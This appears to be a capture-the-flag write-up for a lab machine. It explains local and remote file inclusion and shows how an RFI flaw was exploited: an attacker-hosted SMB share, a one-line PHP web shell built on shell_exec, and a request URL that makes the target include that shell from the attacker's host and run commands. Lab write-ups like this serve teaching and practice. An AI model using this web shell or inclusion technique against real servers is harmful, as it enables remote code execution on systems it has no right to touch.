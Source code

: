 A local file inclusion (LFI) vuln allows users to `include` (and therefore eval/run) other executable files on the filesystem of the vulnerable server. Remote file inclusion (RFI) takes it a step further,
allowing users to serve their own executable files from a remote host, and have them executed on the remote server via the `include` statement. Some webapp configurations can mean that the 'remote' include
is disbaled, so that only LFI is possible. Other times, the much safer `readfile()` function will be used instead of `include`, meaning a webapp isn't vulnerable to file inclusion at all. 

For this reason I always like to test for LFI first, and if successful, then try for RFI. While poking around before, I could see that a custom 404 page was being served if I requested a resource that didn't exist - using the help of a file on the server at **/blog/js/error.js**. This seemed like
a good target to try and confirm LFI before testing for RFI The image below shows that it worked! The code wasn't executed because it isn't valid PHP.

![Image](./img/sniper_web_enum_3.png)

## Web Exploitation

With this information I was able to start testing for RFI and had no luck at all trying to include remote files via HTTP. To do this I ran the python module `SimpleHTTPServer` on my kali machine and tried connecting to it with variations of the following:
`http://10.10.10.151/blog/?lang=http://10.10.14.8/test.php`. Next I tried SMB and had success! I used [Impacket's](https://github.com/SecureAuthCorp/impacket) `smbserver.py` on kali and had remote machine to connect to my share.

![Image](./img/sniper_web_exploit_1.png)

Unfortunately I wasn't able to fix the error with smbserver.py "Handle: [Error 104] Connection reset by peer", and was never able to successfully serve a php file this way (if anyone knows what's going on here please let me know). So instead I resorted to creating my own SMB share and configuring
`smbd` to serve up my payload. Below are the steps for exploitation.

1. Modify `/etc/samba/smb.conf` as follows to set up a guest accessible share out of /tmp
```
[share]
path = /tmp
writeable = no
guest ok = yes
guest only = yes
read only = yes
directory mode = 0555
force user = nobody
``` 
2. Write a PHP payload to /tmp - I went for something nice and simple: `<?php echo(shell_exec($_GET['cmd'])); >?
3. Start the smb service: `service smbd start`
4. Make the HTTP GET request: `http://10.10.10.151/blog/?lang=\\10.10.14.8\share\shell.php&cmd=ipconfig`

![Image](./img/sniper_web_exploit_2.png)

And now I've confirmed that I can execute code on the server!
